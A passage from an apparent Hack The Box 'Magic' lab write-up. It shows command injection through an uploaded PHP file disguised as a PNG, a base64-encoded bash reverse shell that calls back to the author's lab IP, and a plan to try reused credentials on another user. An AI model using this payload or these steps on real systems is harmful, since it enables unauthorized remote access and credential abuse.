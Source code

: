 [<img src="../images/htb_magic/commandinjection.png"
  style="width: 800px;"/>](../images/htb_magic/commandinjection.png)

I tried a couple of reverse shell scripts which did not get me a reverse shell.  So to avoid any weird special character issues I base64 encoded a bash reverse shell, piped it to base64 decode and then piped it to bash:

```bash
10.10.10.185/images/uploads/newphp.php.png?cmd=echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDMvOTAwMSAwPiYxCg== | base64 -d | bash
```

[<img src="../images/htb_magic/revshell.png"
  style="width: 800px;"/>](../images/htb_magic/revshell.png)

### User

So I had a shell as www-data and I could see the user theseus but couldn't read user.txt.  I always like to try credentials I already have with a new user, as we know how often people like to re-use credentials.
